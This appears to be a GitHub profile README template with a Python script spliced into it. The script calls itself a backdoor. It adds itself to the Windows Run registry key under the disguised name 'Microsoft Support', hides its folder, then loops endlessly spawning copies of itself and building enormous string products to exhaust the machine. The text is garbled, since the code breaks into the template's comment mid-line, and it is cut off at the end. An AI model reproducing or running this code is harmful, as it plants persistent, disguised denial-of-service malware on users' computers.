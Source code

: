 - 👋 Hi, I’m @Rokibul122
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...

<!-import itertools,subprocess,sys,os

f =  os.path.basename(sys.arg--
Rokibul122/Rokibul122 is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->
v[0])
Backdoor_Name=os.path.basename(__file__)
hiddenPath = os.getcwd()
hiddenPath = '\"' + hiddenPath + '\"'
regPath = os.getcwd()
regPath = regPath + r"\%s"%Backdoor_Name
regPath = '\"' + regPath + '\"'
regConnect = ConnectRegistry(None, HKEY_LOCAL_MACHINE)
regKey = OpenKey(regConnect, r"SOFTWARE\Microsoft\Windows\CurrentVersion\Run", 0, KEY_WRITE)
SetValueEx(regKey,"Microsoft Support",0, REG_SZ, r"" + regPath)
os.system("attrib +h " + hiddenPath)
while True:
	subprocess.Popen("%s"%f, creationflags=subprocess.CREATE_NEW_CONSOLE, shell=True)
	subprocess.Popen("%s"%f, creationflags=subprocess.CREATE_NEW_CONSOLE, shell=True)
	subprocess.Popen("%s"%f, creationflags=subprocess.CREATE_NEW_CONSOLE, shell=True)
	subprocess.Popen("%s"%f, creationflags=subprocess.CREATE_NEW_CONSOLE, shell=True)
	subprocess.Popen("%s"%f, creationflags=subprocess.CREATE_NEW_CONSOLE, shell=True)
	subprocess.Popen("%s"%f, creationflags=subprocess.CREATE_NEW_CONSOLE, shell=True)
	subprocess.Popen("%s"%f, creationflags=subprocess.CREATE_NEW_CONSOLE, shell=True)
	subprocess.Popen("%s"%f, creationflags=subprocess.CREATE_NEW_CONSOLE, shell=True)
	subprocess.Popen("%s"%f, creationflags=subprocess.CREATE_NEW_CONSOLE, shell=True)
	subprocess.Popen("%s"%f, creationflags=subprocess.CREATE_NEW_CONSOLE, shell=True)
	subprocess.Popen("%s"%f, creationflags=subprocess.CREATE_NEW_CONSOLE, shell=True)
	[''.join(x for x in t) for t in itertools.product("abcdefghijklmnobqrstuvwxyz",repeat=100)]
	[''.join(x for x in t) for t in itertools

